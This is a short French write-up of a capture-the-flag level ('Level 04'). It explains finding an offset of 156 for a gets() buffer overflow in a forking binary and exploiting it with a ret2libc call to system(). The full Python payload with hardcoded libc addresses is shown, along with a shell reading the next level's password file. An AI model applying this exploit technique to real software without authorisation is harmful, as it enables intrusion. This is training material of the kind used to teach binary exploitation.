 # Level 04

Quand on lance le programme, il nous demande de lui donner du shellcode.

En décompilant le binaire on observe que le binaire se fork et une partie, utilise `gets` cette fonction nous permet de faire un buffer overflow.

Si nous continuons d'examiner le code on peut voir qu'il y a une protection du processus parent qui nous empêche d'utiliser la fonction `exec()`, mais nous pouvons utiliser la fonction `system()` avec un ret2libc.

Il nous font donc maintenant determiner le à quel moment on va réecrire l'EIP, le buffer de gets est de 128 en testant on s'aperçois que l'offest est de 156.

Nous pouvons donc exploiter le binaire.

```shell
~ python -c 'print "B"*128' | ./level04
Give me some shellcode, k
child is exiting...
~ echo "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmm" | ./level04
Give me some shellcode, k
Give me some shellcode, k
...
~ echo -n "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmm" | wc -c
156
~ python -c 'print "B"*156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"' > /tmp/level04
~ cat /tmp/level04 - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

